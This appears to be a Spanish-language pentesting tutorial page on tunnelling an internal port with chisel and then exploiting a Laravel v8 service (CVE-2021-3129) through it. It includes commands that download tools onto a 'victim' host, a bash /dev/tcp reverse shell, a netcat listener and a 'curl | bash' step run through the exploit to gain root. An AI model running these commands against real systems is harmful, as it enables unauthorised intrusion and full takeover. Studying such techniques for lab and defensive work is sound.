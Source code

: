 ```yaml
---
icon: right-to-line
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Port Forwarding

## <mark style="color:purple;">Port Forwarding</mark>

Si en una de las maquinas encontramos algun puerto `8000` de forma interna con un `Lavel v8` u otra version que pueda ser explotable, podemos hacer esta tecnica con lagunos repositorios de GitHub o para algun otro puerto que queramos transladar a nuestro `Host` para operar desde ahi ya que sirve para lo mencionado anteriormente (Esta tecnica sirve para transladar algun puerto o depende de lo que quieras hacer a tu `Host` para operar desde ahi mas facilmente)

URL = [Chisel Pagina](https://github.com/jpillora/chisel)

Utilizaremos la herramienta `chisel` que es la mas utilizada para este tipo de tecnicas y sirve para abrirnos una especie de servidor para que podamos interactuar desde nuestro `Host` como si fuera una `Reverse Shell` haciendo una especie de `tunel` hacia tu `host`...

Una vez clonado en tu maquina `host` hacemos lo siguiente para montarlo...

```shell
go build -ldflags "-s -w" .
```

```shell
upx chisel
```

Con el siguiente comando veremos lo que pesa la herramienta `chisel`...

```shell
du -hc chisel
```

Por lo que abrimos un servidor de `python3` para pasarnos el `chisel` a nuestra maquina victima...

```shell
python3 -m http.server 80
```

> Maquina victima

```shell
wget http://<IP>/chisel
```

```shell
chmod +x chisel
```

Ya ahora para pasarnos el puerto que queremos por ejemplo el puerto `8000` a nuestra maquina `Host` haremos lo siguiente...

> Maquina Host

```shell
./chisel <SERVER_NAME> --reverse -p <PORT>
```

```shell
./chisel server --reverse -p 1234
```

Donde pone `server` es el nombre que le quieras dar a tu "Servidor" y despues de `-p` ponemos el puerto al que queremos abrir el server por ejemplo el `1234`...

Y con eso ya estaria montado el servidor y abierto...

> Maquina victima

```shell
./chisel client <IP>:<SERVER_PORT> R:<TRANSFER_PORT>:127.0.0.1:<PORT>
```

Adaptandolo a nuestro ejemplo quedaria de la siguiente manera...

```shell
./chisel client <IP>:1234 R:8000:127.0.0.1:8000
```

Lo que estamos haciendo aqui es conectarnos desde la maquina victima de tipo `cliente` a nuestra `IP` de la maquina `Host` donde tenemos el servidor corriendo en el puerto `1234` de manera que el parametro `R:` significa que nos estamos pasando en forma de tunel el puerto `8000` de la maquina victima con la `IP` del `localhost` a nuestro puerto `8000` de la maquina `Host`, por lo que una vez echo esto si nos vamos a nuestra maquina `Host` y buscamos por el puerto `8000` en este caso pertenece a una pagina web...

```
URL = http://127.0.0.1:8000/
```

Nos mostrara el contenido del puerto `8000` que contiene la maquina victima...

Por lo que si tiene alguna vulnerabilidad podremos explotarla desde nuestro `Host`...

> EJEMPLO

Si esta pagina tiene un `CMS` llamado `Laravel v8` como ya dije anteriormente puede ser ecplotado por un exploit de GitHub, ya que lo esta ejecutando `root` desde la maquina victima...

URL = https://github.com/nth347/CVE-2021-3129\_exploit

Si esto nos lo clonamos en nuestro `Host` y lo explotamos desde nuestro `Host` lo estaremos haciendo como si fuera en la maquina victima y como lo esta ejecutando `root` podremos ser `root` ya que todo lo que toquemos en ese puerto transformado en un tunel se ejecutara en la maquina victima...

```shell
python3 exploit.py http://127.0.0.1:<TUNEL_PORT> Monolog/RCE1 <COMMAND>
```

```shell
python3 exploit.py http://127.0.0.1:8000 Monolog/RCE1 whoami
```

```shell
python3 exploit.py http://127.0.0.1:8000 Monolog/RCE1 'ifconfig'
```

Con el `ifconfig` veremos la `IP` de la maquina victima con esto ya confirmamos que se esta ejecutando desde la maquina victima...

Y si todo funciona veremos que es `root` el que lo esta ejecutando, por lo que haremos una `Reverse Shell` con `curl`...

Crearemos el archivo `index.html`...

```shell
nano index.html

#Contenido del nano

#!/bin/bash

bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
```

Guardamos el archivo y ahora lo ejecutaremos desde `curl` con el exploit el cual nos deja ejecutar comandos...

Donde tengamos el archivo abrimos un servidor de `python3` de la siguiente manera...

```shell
python3 -m http.server 80
```

Una vez hecho eso, estaremos a la escucha...

```shell
nc -nlvp <PORT>
```

Y por ultimo lo ejecutaremos con `curl` de la siguiente forma mediante el exploit...

```shell
curl http://<IP>/ | bash
```

Y con esto ya tendriamos la shell autenticada como `root` ya que lo esta ejecutando el usuario `root` todo esto y como si se estuviera ejecutando desde la maquina victima...
